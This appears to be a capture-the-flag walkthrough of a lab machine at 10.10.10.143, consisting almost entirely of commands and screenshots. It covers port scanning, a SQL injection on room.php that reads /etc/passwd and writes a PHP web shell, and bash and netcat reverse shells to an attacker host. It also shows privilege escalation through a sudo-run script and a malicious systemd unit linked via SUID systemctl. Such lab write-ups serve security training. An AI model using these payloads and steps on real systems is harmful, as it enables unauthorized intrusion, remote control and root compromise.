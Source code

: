 ```
SQL injection
Webshell
sudo -l
Reverse Shell - Bash
```

```
nmap -sS -sC -sV -T5 -Pn 10.10.10.143
```
![image](https://user-images.githubusercontent.com/33616880/231966154-8ab1d289-572e-4097-8072-e2a664de70ca.png)


```
ffuf -w /usr/share/seclists/Discovery/Web-Content/raft-medium-words-lowercase.txt -u http://10.10.10.143/FUZZ -fc 403 -e .aspx,.php,.txt,.html
```
![image](https://user-images.githubusercontent.com/33616880/231966267-6a6058e9-6223-44d8-acd9-72244a55407f.png)


```
http://10.10.10.143/room.php?cod=2
```
![image](https://user-images.githubusercontent.com/33616880/231967239-40ac1ae1-c35f-4c56-9740-62bd236b9436.png)



![image](https://user-images.githubusercontent.com/33616880/231967279-462d7629-3f4f-4f75-bff1-b82ba0cfeb7b.png)

![image](https://user-images.githubusercontent.com/33616880/231967320-8aa8e60a-e6b3-4552-882e-0ad264e09771.png)



![image](https://user-images.githubusercontent.com/33616880/231967993-6a81e947-d988-4e23-9042-a8ba3eb2bca0.png)



![image](https://user-images.githubusercontent.com/33616880/231968678-abdd6033-6a96-45b6-bc8e-0fd5e45791de.png)
![image](https://user-images.githubusercontent.com/33616880/231968797-0152fad4-d673-488d-aff8-4cbd8d10910d.png)
![image](https://user-images.githubusercontent.com/33616880/231968997-2d0da6ba-012b-480d-83b6-8c185543e797.png)


```
http://10.10.10.143/room.php?cod=-1 union select 1,load_file('/etc/passwd'),3,4,5,6,7 into outfile '/var/www/html/hacked.txt'
```
![image](https://user-images.githubusercontent.com/33616880/231969952-3829cca0-1e62-48ed-a680-8e597d111ff8.png)
![image](https://user-images.githubusercontent.com/33616880/231969969-fe7ccd80-1d5e-4185-9c24-377b58bbe4e1.png)


```
http://10.10.10.143/room.php?cod=-1 union select 1,'<?php system($_REQUEST["exec"]);?>',3,4,5,6,7 into outfile '/var/www/html/pwned.php'
curl -X POST http://10.10.10.143/pwned.php --data-urlencode 'exec=whoami'
```
![image](https://user-images.githubusercontent.com/33616880/231971738-3210b286-20ab-471c-8c63-556e238f3523.png)
![image](https://user-images.githubusercontent.com/33616880/231971768-31d1b5c7-93bb-4b3a-8b4e-d648a22900ce.png)


```
curl -X POST http://10.10.10.143/pwned.php --data-urlencode 'exec=bash -c "bash -i >& /dev/tcp/10.10.14.8/1234 0>&1"'
```
![image](https://user-images.githubusercontent.com/33616880/231972202-e13e19ba-e5cd-4ef9-8b24-ed13676f248b.png)
![image](https://user-images.githubusercontent.com/33616880/231972255-3fcdf22f-ef68-4a2a-87b3-c189d8936720.png)



```
sudo -l
```
![image](https://user-images.githubusercontent.com/33616880/231978294-ddc1284d-62b6-4669-ad17-5b0ec362a773.png)



```
echo 'bash -c "bash -i >& /dev/tcp/10.10.14.8/4444 0>&1"' > /tmp/shell.sh
sudo -u pepper /var/www/Admin-Utilities/simpler.py -p
```
![image](https://user-images.githubusercontent.com/33616880/231977903-441bb61c-6dad-427e-9d5f-387558289cf6.png)
![image](https://user-images.githubusercontent.com/33616880/231977956-2ac3c680-de93-4e87-8b3c-91a432c7efa6.png)



```
find / -perm -4000 2>/dev/null
```
![image](https://user-images.githubusercontent.com/33616880/231979320-9e90787c-3b50-40e9-b92d-cd4009af4304.png)



```
wget 10.10.14.8/LinEnum.sh
./LinEnum.sh
```
![image](https://user-images.githubusercontent.com/33616880/231979671-3ca30d26-3d40-412d-9cca-28b91cfaf839.png)
![image](https://user-images.githubusercontent.com/33616880/231979698-96af9d79-761b-4c32-a848-0c182173242e.png)


https://gtfobins.github.io/gtfobins/systemctl/
```
[Service]
Type=notify
ExecStart=/bin/bash -c 'nc -e /bin/bash 10.10.14.8 443'
KillMode=process
Restart=on-failure
RestartSec=42s

[Install]
WantedBy=multi-user.target
```
```
systemctl link /home/pepper/pwn.service
systemctl start pwn
```
![image](https://user-images.githubusercontent.com/33616880/231983233-c91e3200-561c-4995-8062-6cec3de97037.png)
![image](https://user-images.githubusercontent.com/33616880/231983256-1099084a-99c6-4477-a764-4c9530724f65.png)



